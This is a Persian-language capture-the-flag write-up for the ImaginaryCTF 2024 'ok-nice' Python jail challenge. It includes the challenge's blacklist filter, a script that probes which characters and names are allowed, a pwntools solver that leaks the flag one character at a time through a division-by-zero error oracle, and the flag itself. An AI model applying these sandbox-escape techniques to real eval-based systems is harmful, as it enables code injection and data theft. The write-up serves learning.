

---
tags:
  - ImaginaryCTF
  - ImaginaryCTF 2024
  - Misc  
  - pyjail
---

# چالش ok-nice


<center>
 
</center>

## آشنایی با مساله

تو این سوال به ما فایل `jail.py` داده شده است. بیایید نگاهی به محتویاتش بیندازیم

```python title="jail.py" linenums="1"
#!/usr/bin/env python3
flag = open('flag.txt').read()

print("Welcome to the jail! It is so secure I even have a flag variable!")
blacklist=['0','1','2','3','4','5','6','7','8','9','_','.','=','>','<','{','}','class','global','var','local','import','exec','eval','t','set','blacklist']
while True:
    inp = input("Enter input: ")
    for i in blacklist:
        if i in inp:
            print("ok nice")
            exit(0)
    for i in inp:
        if (ord(i) > 125) or (ord(i) < 40) or (len(set(inp))>17):
            print("ok nice")
            exit(0)
    try:
        eval(inp,{'__builtins__':None,'ord':ord,'flag':flag})
        print("ok nice")
    except:
        print("error")
```


تو این سوال با یک سوال از دسته `pyjail` روبرو هستیم.   
این دسته از سوالات معمولا یک اسکریپت پایتونی داریم که ورودی از کاربر میگیره و در صورتیکه شرط های مساله رو نقض نکرده باشه، ورودی کاربر به `exec` یا `eval` داده میشه و اجرا میشه. و به این طریق فرد میتواند به فلگ برسد.


<center>
 
</center>

مساله ما بطور خلاصه سه شرط زیر را دارد:

1. رشته ورودی ما نباید از `blacklist` ها استفاده کرده باشد
2. حرف‌های رشته ورودی ما باید کد اسکی بین `40` تا `125` داشته باشند (نمیتونیم از `Italic Text` جهت دور زدن شرط ها استفاده کرد)
3. نباید بیش از `17` حرف متفاوت تو رشته ورودیمون استفاده کرده باشیم 


در گام نخست میایم لیستی از چیزهایی که میتونیم استفاده کنیم رو بدست میاریم


=== "script"
    ```py
    import builtins, keyword, string

    blacklist=['0','1','2','3','4','5','6','7','8','9','_','.','=','>','<','{','}','class','global','var','local','import','exec','eval','t','set','blacklist']

    def check(inp):
        for bad in blacklist:
            if bad in inp:
                return False
        for ch in inp:
            if (ord(ch) > 125) or (ord(ch) < 40):
                return False
        if (len(set(inp))>17):
            return False
        return True

    print("\n========= Allowed globals =========")
    for w in list(globals()):
        if check(w):
            print(w)

    print("\n========= Allowed builtins =========")
    for w in list(builtins.__dict__):
        if check(w):
            print(w)

    print("\n========= Allowed keywords =========")
    for w in list(keyword.kwlist):
        if check(w):
            print(w)

    print("\n========= Allowed special chars =========")
    for w in string.punctuation:
        if check(w):
            print(w)
    ```

=== "output"
    ```
    ========= Allowed globals =========
    In
    open
    keyword
    check

    ========= Allowed builtins =========
    abs
    all
    any
    ascii
    bin
    callable
    chr
    compile
    dir
    divmod
    hash
    hex
    id
    len
    max
    min
    ord
    pow
    repr
    round
    sum
    None
    Ellipsis
    False
    True
    bool
    memoryview
    complex
    map
    range
    reversed
    slice
    super
    zip
    BufferError
    EOFError
    LookupError
    MemoryError
    NameError
    OSError
    ReferenceError
    TypeError
    ValueError
    Warning
    OverflowError
    ZeroDivisionError
    EncodingWarning
    ResourceWarning
    UnicodeWarning
    UserWarning
    BlockingIOError
    ChildProcessError
    PermissionError
    ProcessLookupError
    IndexError
    KeyError
    RecursionError
    UnboundLocalError
    UnicodeError
    BrokenPipeError
    TabError
    UnicodeDecodeError
    UnicodeEncodeError
    IOError
    WindowsError
    open
    license
    help
    runfile
    display

    ========= Allowed keywords =========
    False
    None
    True
    and
    as
    async
    break
    def
    del
    elif
    else
    finally
    for
    from
    if
    in
    is
    lambda
    or
    pass
    raise
    while
    yield

    ========= Allowed special chars =========
    (
    )
    *
    +
    ,
    -
    /
    :
    ;
    ?
    @
    [
    \
    ]
    ^
    `
    |
    ```


## راه حل

ورودی ما به تابع `eval` داده میشه و دستور `eval` به خودی خود چیزی نمایش نمیده.  
درنتیجه دستور ما، باید شامل توابعی نظیر `print` باشد تا خروجی را نمایش دهد، اما متاسفانه با توجه به اینکه ما نمیتونیم از فاصله و نقطه و حرف `t` استفاده کنیم، پس استفاده از تابع `print` و نظیرهم کنسل میشه 😕


بعد کلی آزمون و خطا، ایده `ZeroDivisionError` به ذهنم اومد، چون سوال وقتی تابع `eval` به ارور بخوره `error` چاپ میشه و از این طریق میتونیم حروف فلگ رو بدست بیاوریم. چطور؟   
میدونیم تو پایتون اگر عددی تقسیم بر صفر شه، به ارور برمیخوریم. پس داریم: 


```python
1/0  => ZeroDivisionError 
```

همچنین میدونیم تو پایتون `True` میتواند بعنوان عدد `1`  نیز لحاظ شود و داریم:

```py
flag[1] == flag[True]
flag[2] == flag[True+True]
```

در نتیجه خواهیم داشت: 

```python
True / ( ord('t') - 116 )  => ZeroDivisionError 
True / ( ord(flag[True+True]) - 116 )  => ZeroDivisionError 
```

در ادامه کافیست یک اسکریپت بنویسیم و اینکار رو اتومیت کنیم و فلگ را بدست بیاریم

```python title="solve.py" linenums="1"
from Crypto.Util.number import *
from pwn import *

context.log_level = "critical"
# ncat --proxy-type socks5 --proxy 127.0.0.1:2080 ok-nice.chal.imaginaryctf.org 1337
#context.proxy = (socks.SOCKS4, "127.0.0.1", 2080)

int2T = lambda n: '+'.join(['True']*n)

p = remote(*'ok-nice.chal.imaginaryctf.org 1337'.split())
for i in range(1, 30):
    for ch in range(0x20, 0x80):
        inp = f"True/(ord(flag[{int2T(i)}])-({int2T(ch)}))"
        p.sendlineafter(b'Enter input: ', inp.encode())
        if p.recvline().startswith(b'err'):
            print(chr(ch), end='')
            break
```


---
??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`ictf{0k_n1c3_7f4d3e5a6b}`</div>


!!! نویسنده
    [mheidari98](https://github.com/mheidari98)


